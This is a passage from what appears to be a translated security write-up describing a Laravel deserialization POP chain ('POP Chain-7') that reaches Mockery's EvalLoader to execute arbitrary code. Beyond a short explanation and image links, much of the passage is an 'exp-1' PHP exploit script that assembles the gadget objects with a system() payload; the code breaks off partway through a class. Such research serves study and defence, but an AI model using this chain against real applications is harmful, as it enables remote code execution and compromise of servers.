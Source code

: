 ![undefined](https://p5.ssl.qhimg.com/t0128e03ec10214febd.png "undefined")

## POP Chain-7
Continue to continue the `call_user_func()` method of the previous chain. Since the variables are controllable, you can call methods of any class and follow up with the `load()` method in `library/Mockery/Loader/EvalLoader.php`. If you do not enter the if loop and trigger the `getCode()` method, you can cause any code execution vulnerability.

![undefined](https://p4.ssl.qhimg.com/t016931a8ff7a493d3a.png "undefined")

Look at the judgment conditions of the if loop and follow up the call all the way. Since the last `$this->name` is controllable, you only need to assign it a non-existent class name value. There are many methods available for use, just choose one that can be used.

![undefined](https://p2.ssl.qhimg.com/t01cd6d0337cb7b6592.png "undefined")

![undefined](https://p0.ssl.qhimg.com/t01a97a79073d0c1170.png "undefined")

### exp-1
```php
<?php
namespace Mockery\Generator {
    class MockConfiguration {
        protected $name = 'H3rmesk1t';
    }
    class MockDefinition {
        protected $config;
        protected $code;
        public function __construct() {
            $this->config = new MockConfiguration();
            $this->code = "<?php system('calc');?>";
        }
    }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Illuminate\Bus {
    use Mockery\Loader\EvalLoader;
    class Dispatcher {
        protected $queueResolver;
        public function __construct() {
            $this->queueResolver = [new EvalLoader(), 'load'];
        }
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    use Mockery\Generator\MockDefinition;
    class BroadcastEvent {
        public $connection;
        public function __construct() {
            $this->connection = new MockDefinition();
        }
    }
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
```